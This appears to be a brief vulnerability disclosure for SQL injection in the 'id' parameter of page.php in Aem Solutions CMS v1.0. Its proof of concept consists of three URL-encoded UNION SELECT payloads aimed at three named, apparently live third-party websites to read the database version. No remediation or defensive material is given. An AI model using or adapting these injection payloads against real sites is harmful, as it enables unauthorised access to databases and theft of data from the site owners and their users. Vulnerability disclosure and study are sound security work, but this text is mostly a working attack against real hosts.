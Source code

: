 # Aem Solutions - Sql Injection

#### vender:https://www.aemsolutions.com/

#### Software: Aem Solutions CMS v1.0

Tested On: Mac, Firefox

### Description

Sql Injection of param id in page.php of Aem Solutions CMS v1.0.

## Proof of Concept:

### Demo :

https://www.aaar.co.in/page.php?id=-3%27%20union%20select%201,2,3,version(),5--+

https://csalok.com/page.php?id=2%27%20union%20select%201,2,3,version(),5--+

https://www.pnaindia.in/page.php?id=6%27%20union%20select%201,2,3,version(),5--+

- We can see the version of Database.

![image-20250525234100384](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505252341623.png)